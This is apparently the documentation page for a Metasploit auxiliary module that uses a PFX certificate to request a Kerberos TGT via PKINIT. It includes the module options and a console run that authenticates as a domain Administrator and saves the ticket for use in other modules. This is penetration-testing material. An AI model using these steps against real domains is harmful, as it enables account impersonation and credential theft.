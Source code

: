 ## Vulnerable Application
This module uses a pfx certificate file to acquire a TGT using the PKINIT protocol.
A successful login will store the TGT for use with other modules.

## Options

This module only requires the `RHOST` and `CERT_FILE` options to be set.

If the certificate file has a non-empty password, the `CERT_PASS` option must also be set.

The username and realm for the login request are derived from the certificate;
however it is possible to override them using the `USERNAME` and `DOMAIN` options.
These options must be provided if for some reason the certificate contains several principals.
The module will provide a warning if these do not match any entry in the certificate.


## Verification Steps

1. Do: `use auxiliary/admin/kerberos/pkinit_login`
1. Do: `set RHOSTS [IP]`
1. Do: `set CERT_FILE [path]`
1. Do: `run`

## Scenarios


### Receive TGT from an existing certificate

You must first retrieve a certificate using another means, such as the `auxiliary/admin/dcerpc/icpr_cert` module

```
msf6 > use auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > set cert_file /home/user/msf.pfx
cert_file => /home/user/msf.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > set rhosts 192.168.1.1
rhosts => 192.168.1.1
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 192.168.1.1

[*] Attempting PKINIT login for Administrator@pod8.lan
[+] Successfully authenticated with certificate
[*] 192.168.1.1:88 - TGT MIT Credential Cache saved to /home/user/.msf4/loot/20221007141316_default_192.168.1.1_mit.kerberos.cca_155083.bin
[*] Auxiliary module execution completed
```

These creds can then be used in another module that uses Kerberos tickets.
